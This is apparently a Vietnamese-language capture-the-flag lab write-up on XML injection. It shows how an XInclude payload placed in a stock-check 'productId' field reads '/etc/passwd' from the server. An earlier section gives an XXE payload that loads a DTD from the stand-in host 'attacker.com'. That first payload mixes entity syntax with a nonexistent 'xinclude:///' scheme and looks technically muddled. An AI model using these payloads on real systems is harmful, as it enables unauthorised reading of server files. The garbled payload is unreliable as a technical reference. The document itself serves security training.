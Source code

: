 # Exploiting XInclude để lấy tệp tin

Kỹ thuật XInclude có thể được khai thác để lấy các tệp tin từ máy chủ bằng cách chèn chúng vào tài liệu XML và sử dụng XInclude để đọc và trả về nội dung của chúng. Để thực hiện cuộc tấn công này, bạn cần biết đường dẫn đến tệp tin mục tiêu trên máy chủ. Dưới đây là một ví dụ về cách khai thác XInclude để lấy tệp tin:

1. Định nghĩa một đối tượng XML parameter entity để chứa đường dẫn đến tệp tin mục tiêu:

```xml
<!ENTITY % xinclude SYSTEM "file:///etc/passwd">
```

Trong ví dụ này, tôi sử dụng đường dẫn đến tệp tin `"/etc/passwd"` làm tệp tin mục tiêu.

2. Định nghĩa một đối tượng XML parameter entity khác để chứa khai báo XInclude:
```xml
<!ENTITY % xinclude-exp "<!ENTITY &#x25; exfil SYSTEM 'xinclude:///%xinclude;'>">
```

Đối tượng XML parameter entity này chứa khai báo XInclude với một đối tượng XML parameter entity bên trong có tên `"exfil"`.

3. Kết hợp các đối tượng XML parameter entity đã định nghĩa để tạo thành một tài liệu XML hoàn chỉnh:

```xml
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;
%xinclude-exp;
]>
<root>&exfil;</root>
```

Trong ví dụ này, tài liệu XML chứa một phần tử root và giá trị của nó là đối tượng XML parameter entity `"exfil"`.

4. Đặt tài liệu XML vào yêu cầu gửi đến ứng dụng mục tiêu và chờ nhận kết quả.

Khi ứng dụng mục tiêu xử lý yêu cầu, nó sẽ đọc tệp tin được chỉ định và trả về nội dung của tệp tin đó trong phản hồi. Bạn có thể lấy nội dung của tệp tin và sử dụng nó cho mục đích của mình.

# Overview:

Form của challenge

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/8d126bbe-c3cf-4495-a551-d7de5d15a9ea)

Theo mô ta của đề ta biết: Đầu vào của người dùng được bao gồm trong tài liệu XML trên máy chủ, nhưng không kiểm soát tài liệu XML đầy đủ. Goal là lấy được `etc/passwd`.

Đầu tiên ta check stock, và ta không thấy form XML

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/ffc8a329-f44e-4574-ab5f-7c6f2e50dc97)

Một form XML thường như thế nào 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck> 
```

Nếu tôi thêm một số XML vào một trong các trường, nó có thể kết thúc bên trong XML. Ví dụ: add <tag>content</tag> có thể dẫn đến XML như thế này:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1<tag>content</tag></productId>
  <storeId>1</storeId>
</stockCheck> 
```

# Solution:

Khai thác XInclude để lấy tệp tin, tôi tạo một thẻ mới chứa namespace XInclude và cung cấp đường dẫn tới tệp tin cần được bao gồm:

```xml
<xxx xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></xxx>
```

Tương tự như trong các bài lab trước, nếu `productId` không hợp lệ, nó sẽ được trả lại. Vì vậy, tôi thêm nội dung này vào `productId` trong yêu cầu để gây ra lỗi và có nội dung của `productId` trả về cho mình.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/d2949edf-23be-4690-9c1c-d90e944ca557)


